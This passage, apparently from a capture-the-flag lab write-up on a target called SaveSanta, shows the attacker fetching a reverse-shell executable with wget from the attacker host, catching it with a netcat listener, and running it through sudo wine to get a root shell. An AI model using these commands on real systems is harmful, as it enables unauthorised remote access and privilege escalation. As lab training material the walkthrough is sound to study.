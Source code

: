 ```bash
$ cd ~
$ wget http://10.0.2.15/shell.exe
--2024-01-04 14:40:21--  http://10.0.2.15/shell.exe
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7168 (7.0K) [application/x-msdos-program]
Saving to: ‘shell.exe’

shell.exe                                           0%[                                                            shell.exe                                         100%[=============================================================================================================>]   7.00K  --.-KB/s    in 0s      

2024-01-04 14:40:21 (512 MB/s) - ‘shell.exe’ saved [7168/7168]

```
As soon as the reverse shell is downloaded we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ sudo rlwrap nc -lvnp 443      
listening on [any] 443 ...

```
Since we are ready to get a shell as root we only have to launch shell.exe with wine.
```bash
$ sudo /usr/bin/wine shell.exe
it looks like wine32 is missing, you should install it.
multiarch needs to be enabled first.  as root, please
execute "dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32:i386"
0094:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
0094:err:winediag:nodrv_CreateWindow L"The explorer process failed to start."
0094:err:systray:initialize_systray Could not create tray window

```
After starting we should check our netcat listener to see if the connection has been established.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/SaveSanta]
└─$ sudo rlwrap nc -lvnp 443      
listening on [any] 443 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.39] 35994
Microsoft Windows 6.1.7601

Z:\home\bill>

```
We got a shell from our target. Since wine is running our reverse shell it looks like we are working on 'Microsoft Windows 6.1.7601', what is not true.
We should now check who we are and capture the root flag.


```bash
Z:\home\bill>whoami
SANTA\root

Z:\home\bill>hostname
SANTA

Z:\home\bill>cd \root

Z:\root>dir
Volume in drive Z has no label.
Volume Serial Number is 4afb-ec36

```